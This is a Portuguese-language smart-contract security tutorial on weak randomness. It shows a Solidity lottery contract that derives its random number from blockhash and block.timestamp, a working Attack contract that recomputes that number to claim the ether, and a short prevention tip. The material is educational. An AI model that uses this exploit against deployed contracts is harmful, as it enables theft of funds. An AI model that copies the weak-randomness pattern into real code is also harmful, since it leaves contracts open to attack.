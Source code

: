 # Fonte de Aleatoriedade

#### Vulnerabilidade <a href="#vulnerability" id="vulnerability"></a>

`blockhash` e `block.timestamp` não são fontes confiáveis de ateatoriedade.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.3;

/*
NOTA: não pode usar blockhash no Remix, então use ganache-cli

npm i -g ganache-cli
ganache-cli
No remix troque o ambiente para o provedor Web3
*/

/*
GuessTheRandomNumber é um jogo onde você ganha 1 Ether se você advinhar
um número pseudo aleatório gerado de um bloco de hash e timestamp.

À primeira vista, parece impossível advinhar o número correto.
Mas vamos ver como é fácil ganhar.

1. Alice implanta GuessTheRandomNumber com 1 Ether
2. Eve implementa Attack
3. Eve chama Attack.attack() e ganha 1 Ether

O que aconteceu?
Attack computou a resposta correta simplesmente copiando o código que computa 
o número aleatório
*/

contract GuessTheRandomNumber {
    constructor() payable {}

    function guess(uint _guess) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        if (_guess == answer) {
            (bool sent, ) = msg.sender.call{value: 1 ether}("");
            require(sent, "Failed to send Ether");
        }
    }
}

contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    // Função Helper para checar o balanço
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

#### Técnicas preventivas <a href="#preventative-techniques" id="preventative-techniques"></a>

* Não use `blockhash` e `block.timestamp` como fonte de aleatoriedade
